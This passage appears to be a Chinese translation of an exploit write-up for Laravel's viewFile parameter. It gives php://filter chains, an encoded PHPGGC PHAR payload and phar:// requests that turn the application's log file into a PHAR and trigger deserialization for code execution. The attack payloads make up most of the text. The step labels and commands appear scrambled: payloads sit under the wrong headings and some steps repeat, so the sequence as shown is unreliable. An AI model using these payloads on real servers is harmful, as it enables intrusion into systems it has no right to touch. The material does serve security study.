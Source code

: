 因此，我们将无法在错误日志中注入一个带有 NULL 字节的有效载荷。幸运的是，最后一个过滤器来拯救我们：convert.quoted-printable-decode。

我们可以使用 = 00 对 NULL 字节进行编码。

这是我们最后的转换链：

```
viewFile: php://filter/write=convert.base64-decode|convert.base64-decode|convert.base64-decode/resource=/path/to/storage/logs/laravel.log
```

完整的开发步骤

创建一个 PHPGGC 有效载荷并对其进行编码：

```
viewFile: AA
```

清理日志（x10）

```
viewFile: U=00E=00s=00D=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00I=00Q=00A=00M=00f=00n=00/=00Y=00B=00A=00A=00A=00A=00A=00Q=00A=00A=00A=00A=00F=00A=00B=00I=00A=00Z=00H=00V=00t=00b=00X=00l=00u=00d=00Q=004=00A=001=00U=00l=003=00t=00r=00Q=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00B=000=00Z=00X=00N=000=00U=00E=00s=00D=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00I=00Q=00A=007=00m=00z=00i=004=00H=00Q=00A=00A=00A=00B=000=00A=00A=00A=00A=00O=00A=00B=00I=00A=00L=00n=00B=00o=00Y=00X=00I=00v=00c=003=00R=001=00Y=00i=005=00w=00a=00H=00B=00u=00d=00Q=004=00A=00V=00y=00t=00B=00h=00L=00Y=00B=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=008=00P=003=00B=00o=00c=00C=00B=00f=00X=000=00h=00B=00T=00F=00R=00f=00Q=000=009=00N=00U=00E=00l=00M=00R=00V=00I=00o=00K=00T=00s=00g=00P=00z=004=00N=00C=00l=00B=00L=00A=00w=00Q=00A=00A=00A=00A=00A=00A=00A=00A=00A=00A=00C=00E=00A=00D=00H=005=00/=002=00A=00Q=00A=00A=00A=00A...=00Q=00==00==00
```

创建第一个日志条目，用于对齐：

```
viewFile: php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=/path/to/storage/logs/laravel.log
```

创建带有有效载荷的日志条目：

```
viewFile: phar:///path/to/storage/logs/laravel.log
```

应用我们的过滤器将日志文件转换为有效的 PHAR：

```
viewFile: php://filter/write=convert.quoted-printable-decode|convert.iconv.utf-16le.utf-8|convert.base64-decode/resource=/path/to/storage/logs/laravel.log
```

启动 PHAR 反序列化：

```
viewFile: phar:///path/to/storage/logs/laravel.log
```

Result:
